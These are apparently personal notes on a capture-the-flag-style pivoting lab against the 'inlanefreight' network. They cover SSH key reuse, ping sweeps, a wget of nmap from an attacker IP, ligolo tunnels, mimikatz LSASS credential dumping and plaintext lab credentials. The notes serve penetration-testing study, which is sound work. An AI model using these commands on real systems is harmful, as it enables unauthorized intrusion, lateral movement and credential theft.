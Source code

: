 ![[Pasted image 20250706004903.png]]
### FOUND PRIVATE SSH KEY FOR WEBADMIN
copy to attacker and ssh 
```
ssh webadmin@ip
```
found cred file
```
webadmin@inlanefreight:~$ cat for-admin-eyes-only 
creds to access server01 or other hosts
mlefay : Plain Human work!
```
view routing 
```
ifconfig

ens192:   172.16.5.15  netmask 255.255.0.0  broadcast 172.16.255.255
```

ping hosts:
`for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done`
``
`for /L %i in (1 1 254) do ping 172.16.6.%i -n 1 -w 100 | find "Reply"`



```shell
webadmin@inlanefreight:~$ for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done
64 bytes from 172.16.5.35: icmp_seq=1 ttl=128 time=1.87 ms
```


#### start tunnel from pivot1

add a listener to run shells/ share folders
```
[Agent : webadmin@inlanefreight.local] » listener_add --addr  0.0.0.0:2000 --to  127.0.0.1:1111 --tcp                                                                                       
INFO[1122] Listener 0 created on remote agent!   
```


# Server01 (pivot 2)
# NMAP
download nmap to scan server01
https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap
```
wget http://10.10.16.40/nmap
```
## Experimenting with portscan
ill try to use the static binary provided in github repo and do a tunnel and compare the the output of my kali's proxied nmap withscripts and the limited andrew's static nmap
`run uploaded nmap file`
```
webadmin@inlanefreight:~$ ./nmap 172.16.5.35 -Pn

PORT     STATE SERVICE
22/tcp   open  ssh
135/tcp  open  epmap
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server

Nmap done: 1 IP address (1 host up) scanned in 14.45 seconds

```

### creating the tunnel
`ifconfig`
![[Pasted image 20250705211820.png]]

ligolo doesnt know what interface to use so lets specify
`im using ligolo-pivot1`

mlefay : Plain Human work!
#  server01 pivot2

Also dual homed: ![[Pasted image 20250705214909.png]]

# Hint: LSASS SERVICE
copy mimikatz
timeout when i tried to copy with wget or iwr so i used rdp clipboard

made a dump file and ran
```
sekurlsa::minidump lsass.DMP
sekurlsa::logonpasswords

```
![[Pasted image 20250705225525.png]]
using a powershell oneliner to discover live hosts
```
1..254 | ForEach-Object {
    $ip = "172.16.6.$_"
    if (Test-Connection -ComputerName $ip -Count 1 -Quiet) { $ip }
}

```
![[Pasted image 20250705230711.png]]
we know that 6.35 is us so lets try using mstc to acess the other hosts or
setup another agent so we can proxy our tools through

resolve hostnames
```
Resolve-DnsName -Type PTR -Name 172.16.6.25
```
ping
![[Pasted image 20250705231519.png]]
ping replies indicate a linux host and a windows host
lets try to login to the windows one with mstc
```
vfrank: Imply wet Unmasked!
```
i then need to create an interface for the pivot2 connection
ill call it ligolo-double or pivot2-if
```
sudo ip tuntap add user htb-ac-1402785 mode tun ligolo-double
sudo ip link set ligolo-double up
```
created a listener to forward traffic from .5 to kali
```
[Agent : webadmin@inlanefreight.local] » listener_add  --addr 0.0.0.0:11601 --to 127.0.0.1:11601 --tcp
INFO[3554] Listener 3 created on remote agent!     
```
but no session was created... why? cause you likely forgot to create the second interface (`ligolo-double`)

![[Pasted image 20250705235144.png]]

final map:

